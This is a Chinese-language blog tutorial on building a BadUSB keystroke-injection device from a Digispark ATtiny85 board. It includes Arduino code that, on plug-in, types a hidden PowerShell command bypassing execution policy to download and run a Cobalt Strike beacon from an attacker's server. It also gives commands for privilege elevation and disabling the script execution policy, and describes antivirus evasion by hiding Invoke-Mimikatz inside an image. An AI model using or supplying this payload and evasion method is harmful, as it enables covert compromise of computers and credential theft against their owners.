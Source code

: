 ```yaml
---
layout: post
title:  "BadUsb HID"
date:   2022-11-17 11:21:00 +0800
tags: HID badusb 
color: rgb(128,128,128)
cover: '../assets/papercover/cute2.png'
subtitle: 'BadUsb HID exper by Anoxia!'
---
```


author: by Anoxia  
check: by yako33

#### HID原理：
利用HID进行攻击，将USB设备伪装使电脑识别为键盘，利用模拟键盘或者针脚爆破的方式强行攻击，最为常见的方式badusb，或者可以使用其他typec设备对android等设备进行针脚暴力破解等，其中针对badusb有2种制作方向，一种是usb的驱动加载来实现，一种是模拟键盘操作加载来实现，两种方式的目的都是为了突破验证手段。

#### 漏洞产生原因：
USB设备通常在加载时所要求的权限并不高，行为也很难被识别，所以系统的安全防护软件通常对这类硬件设备的检测力度不够严格，即使在工业生产中所使用的防护设备通常以USB只读的方式运行，但仍然可以通过插入usb设备时的加载文件进行Bypass

#### 前期准备：
准备ATTINY85 Digispark(Attiny85)微型USB开发板(本文中作者使用的设备)，如图：


<ul>
<li  markdown="1" style="list-style-type: none;">
![1]({{site.url}}/screenshot/20221117badusb/1.png)
</li>
</ul>


使用该设备需要安装驱动，博主更加推荐的设备为Arduino Leonardo (Atmega32u4)，但价格会更高一些。

同时可以选择的开发板为
Arduino Micro (Atmega32u4)
Chineese Arduino Leonardo clones (Atmega32u4)
Teensy 2.0 (Atmega32u4)
Phoenix Ovipositor (Atmega32u4)


#### arduino ide环境配置：
打开文件->首选项，在附加开发板管理器中添加地址：[https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json](https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json)

<ul>
<li  markdown="1" style="list-style-type: none;">
![3]({{site.url}}/screenshot/20221117badusb/3.png)
</li>
</ul>

然后选择开发板管理器，进去后会自动下载索引，如果未下载成功，开启科学上网重新下载

<ul>
<li  markdown="1" style="list-style-type: none;">
![4]({{site.url}}/screenshot/20221117badusb/4.png)
</li>
</ul>

然后搜索 "Digistump AVR Boards by Digistump"  进行安装,再在开发板中选择 Digispark（Default-16.5mhz） 

<ul>
<li  markdown="1" style="list-style-type: none;">
![5]({{site.url}}/screenshot/20221117badusb/5.png)
</li>
</ul>

  再选择开发板

<ul>
<li  markdown="1" style="list-style-type: none;">
![6]({{site.url}}/screenshot/20221117badusb/6.png)
</li>
</ul>

#### BadUsb制作：
利用cs生成一个ps1的木马文件，使用ps1文件的原因是因为目前windows系统中普遍支持Powershell，并且可以直接在命令行中运行，测试起来比较方便，实际攻击过程中可能还是会使用标准的木马文件。此处为了方便测试简单监听在vps上用python（python2 -m SimpleHTTPServer 8888）起一个http服务把这个木马文件放上去,具体使用的方式非常多样。

<ul>
<li  markdown="1" style="list-style-type: none;">
![7]({{site.url}}/screenshot/20221117badusb/7.png)
</li>
</ul>

<br />需要将以下代码烧录进开发板中,将ip换成刚才的vps服务器的

```arduino
#include "DigiKeyboard.h"		//定义使用虚拟键盘函数库
#define KEY_ESC     41
#define KEY_BACKSPACE 42
#define KEY_TAB     43
#define KEY_PRT_SCR 70
#define KEY_DELETE  76

//在初始化中运行，意思是在插入读取时运行
void setup() {

DigiKeyboard.sendKeyStroke(0);
//延时，等待确保执行完成
DigiKeyboard.delay(1000);	
//上面这两个输入是windows键+r键盘
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);	
//延时	
DigiKeyboard.delay(1000);	
//输入powershell的弹shell的代码（要绕杀毒需做免杀）
DigiKeyboard.print(F("powershell -WindowStyle Hidden -NoLogo -executionpolicy bypass IEX(New-Object Net.WebClient).DownloadString('http://ip:port/beacon.ps1');"));	
DigiKeyboard.delay(500);
//输入enter键盘
DigiKeyboard.sendKeyStroke(KEY_ENTER);	
DigiKeyboard.delay(750);
DigiKeyboard.sendKeyStroke(KEY_ENTER);

}
void loop() {
  //主逻辑循环这里未使用所以没有编写，可以在此处完成后渗透维权相关操作。
}
```
将代码复制到arduinoide进行烧录，点击上传后看到下面这样的代表编译成功。然后在60秒内插入BadUsb进行烧录

<ul>
<li  markdown="1" style="list-style-type: none;">
![8]({{site.url}}/screenshot/20221117badusb/8.png)
</li>
</ul>

这样就代表烧录成功了，拔下来然后就可以使用了

<ul>
<li  markdown="1" style="list-style-type: none;">
![9]({{site.url}}/screenshot/20221117badusb/9.png)
</li>
</ul>


#### 实际过程中的注意点：
关于静默执行部分：

在模拟键盘操作部分可以添加下面的命令，来更好的命中
```bat
//powershell中开启管理员权限，此处没有隐藏窗口，需要自行添加
start-process PowerShell -verb runas
//以cmd中以管理员打开powershell
powershell start-process powershell -verb runas
//部分windows由于，默认不开启ps1执行，在管理员权限下执行
//可以先获取当前权限，如果编写判断，如果权限不足可以设置如RemoteSigned/Restricted
Get-ExecutionPolicy
//设置权限为无认证可以执行
set-executionpolicy -executionpolicy unrestricted
//在选择中选择A，全是
A
//接下来继续执行后门链接操作。
```
<ul>
<li  markdown="1" style="list-style-type: none;">
![10]({{site.url}}/screenshot/20221117badusb/10.png)
</li>
</ul>


关于ps1免杀部分：

一种可以使用免杀混淆(推荐这种，目前主要使用)，一种是直接使用键盘命令，使用arduino重构指令(比较麻烦也算是种思路)。

使用[Invoke-PSImage](https://github.com/peewpw/Invoke-PSImage)免杀，官方的使用说明中已经说的非常清楚了，使用也很简单(位图免杀混淆此处不讨论。)


```
PS>Import-Module .\Invoke-PSImage.ps1
//这里可以使用"-WebRequest"生成URL的请求
PS>Invoke-PSImage -Script .\Invoke-Mimikatz.ps1 -Out .\evil-kiwi.png -Image .\kiwi.jpg
```

值得注意的是，在Invoke-PSImage中可能会遇到生成文件过大失败的情况，而在cs生成的ps1中有很多代码都在if判断中不会被执行可以删除，删除之后可以解决这个问题。


另一种为自己写代码实现自己想要输入的键盘命令,部分代码,如果使用键盘重构可以打乱编码顺序进行混淆，下面是参考网上的代码作为布局参考:
```arduino
#定义或头相关
#ifndef __DigiKeyboard_h__
...
#include "scancode-ascii-table.h"
#定义类型
...
#重构键盘
PROGMEM char usbHidReportDescriptor[USB_CFG_HID_REPORT_DESCRIPTOR_LENGTH] = { /* USB report descriptor */
  0x05, 0x01,                    // USAGE_PAGE (Generic Desktop) 
  0x09, 0x06,                    // USAGE (Keyboard) 
...
  0x29, 0x65,                    //   USAGE_MAXIMUM (Keyboard Application) 
  0x81, 0x00,                    //   INPUT (Data,Ary,Abs) 
  0xc0                           // END_COLLECTION 
};

#define MOD_CONTROL_LEFT    (1<<0)
...
#define MOD_GUI_RIGHT       (1<<7)

#define KEY_A       4
...
#define KEY_F12     69

//自定义键盘类，并在初始化中完成操作
class DigiKeyboardDevice : public Print {
 public:
  DigiKeyboardDevice () {
    cli();
    usbDeviceDisconnect();
    _delay_ms(250);
    usbDeviceConnect();
    usbInit();     
    sei();
    memset(reportBuffer, 0, sizeof(reportBuffer));      
    usbSetInterrupt(reportBuffer, sizeof(reportBuffer));
  }
    
  void update() {
    usbPoll();
  }
	
...
//实例化
DigiKeyboardDevice DigiKeyboard = DigiKeyboardDevice();
...
```